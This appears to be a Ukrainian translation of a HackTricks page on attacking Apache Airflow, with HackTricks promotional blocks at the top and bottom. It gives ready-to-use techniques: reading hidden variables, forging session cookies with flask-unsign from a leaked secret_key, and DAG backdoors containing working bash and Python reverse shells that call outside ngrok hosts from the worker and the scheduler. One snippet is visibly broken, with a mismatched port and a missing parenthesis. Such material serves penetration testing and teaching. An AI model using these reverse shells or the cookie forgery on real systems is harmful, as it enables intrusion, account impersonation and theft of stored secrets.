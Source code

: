 # Безпека Apache Airflow

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за мною на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Основна інформація

[**Apache Airflow**](https://airflow.apache.org) служить платформою для **оркестрування та планування потоків даних або робочих процесів**. Термін "оркестрування" в контексті потоків даних означає процес організації, координації та управління складними потоками даних, що походять з різних джерел. Основна мета цих оркестрованих потоків даних - забезпечити оброблені та споживні набори даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, засоби бізнес-аналітики, моделі науки про дані та машинного навчання, які є основою функціонування додатків для великих обсягів даних.

Основна ідея полягає в тому, що Apache Airflow дозволить вам **планувати виконання коду, коли відбувається щось** (подія, cron).

## Локальна лабораторія

### Docker-Compose

Ви можете використовувати **файл конфігурації docker-compose з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) для запуску повноцінного середовища Apache Airflow у контейнері Docker. (Якщо ви в MacOS, переконайтеся, що ви надали принаймні 6 ГБ оперативної пам'яті віртуальній машині Docker).

### Minikube

Один з простих способів **запустити Apache Airflow** - це запустити його **за допомогою minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Налаштування Airflow

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі налаштування:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Перед тим як атакувати Airflow, вам слід зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Атаки

### Перелік веб-консолі

Якщо у вас є **доступ до веб-консолі**, ви можете мати доступ до наступної інформації:

* **Змінні** (Тут може бути збережена користувацька чутлива інформація)
* **Підключення** (Тут може бути збережена користувацька чутлива інформація)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може бути збережена тут)
* Список **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

### Отримання значень змінних

Змінні можуть бути збережені в Airflow, щоб **DAGs** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатньо дозволів**, ви можете отримати до них доступ у GUI за адресою `http://<airflow>/variable/list/`.\
За замовчуванням Airflow покаже значення змінної у GUI, однак, згідно з [**цим**](https://marclamberti.com/blog/variables-with-apache-airflow/), можна встановити **список змінних**, значення яких буде відображатися у вигляді **зірочок** у **GUI**.

![](<../../.gitbook/assets/image (79).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (потрібен доступ до БД), **довільне виконання DAG**, **API**, звертаючись до кінцевої точки змінних (API повинен бути активований), і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть Дії -> Експорт**.\
Інший спосіб - виконати **bruteforce** для **прихованого значення**, використовуючи **пошукове фільтрування**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (30).png>)

### Підвищення привілеїв

Якщо конфігурація **`expose_config`** встановлена в **True**, від **ролі Користувач** та **вище** можуть **читати** **конфігурацію у веб-інтерфейсі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим валідним ключем може **створити свій власний підписаний кукі для імітації облікового запису будь-якого іншого користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Задній двері DAG (RCE в робочому процесі Airflow)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який буде надсилати вам **зворотний shell.**\
Зверніть увагу, що цей зворотний shell буде виконуватися всередині **контейнера робочого процесу Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Задній двері DAG (RCE в планувальнику Airflow)

Якщо ви встановите щось для **виконання в корені коду**, на момент написання цього, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Створення DAG

Якщо вам вдалося **зламати машину всередині кластера DAG**, ви можете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

### Впровадження коду DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** до нього.\
Отже, якщо DAG не правильно закодований, він може бути **уразливим для Впровадження Команд**.\
Так сталося у цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати впровадження команд в DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, така ж уразливість може виникнути з **змінними** (зверніть увагу, що за достатньо привілеїв ви можете **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати впровадження команд.

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за мною на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
